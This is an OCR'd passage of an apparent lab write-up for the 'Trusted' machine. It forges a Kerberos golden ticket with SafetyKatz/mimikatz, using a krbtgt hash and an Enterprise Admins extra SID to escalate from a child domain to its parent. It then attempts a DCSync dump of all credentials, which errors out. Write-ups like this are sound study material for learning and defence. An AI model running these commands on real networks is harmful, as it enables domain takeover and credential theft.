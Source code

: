 Trusted.vl SID : `S-1-5-21-3576695518-347000760-3731839591`

**Enterprise Admins group = Parent domain SID-519, so in our case, the Enterprise Admins group =** `S-1-5-21-3576695518-347000760-3731839591-519`

### Exploitation

```bash
SafetyKatz.exe "kerberos::golden /user:Administrator
/domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866
 /sids:S-1-5-21-3576695518-347000760-3731839591-519
/krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt" "exit"
```

```bash
mimikatz(commandline) # kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt
User      : Administrator
Domain    : lab.trusted.vl (LAB)
SID       : S-1-5-21-2241985869-2159962460-1278545866
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ;
ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt
Lifetime  : 7/14/2025 8:15:50 PM ; 7/12/2035 8:15:50 PM ; 7/12/2035 8:15:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ lab.trusted.vl' successfully submitted for current session
```

All that remains is to clear the ntds memory of the parent domain trusted.vl,

```bash
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

At this point, I encountered difficulties running it under evil-winrm. Something like this: 

```bash
mimikatz(commandline) # lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
[DC] 'trusted.vl' will be the domain
[DC] 'trusteddc.trusted.vl' will be the DC server
[DC] Exporting domain 'trusted.vl'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
ERROR kull_m_rpc_drsr_getDCBind ; RPC Exception 0x00000005 (5
```

Now I tried to log in as user cpowers via RDP. If you look closely, you can see that there was an open RDP port.
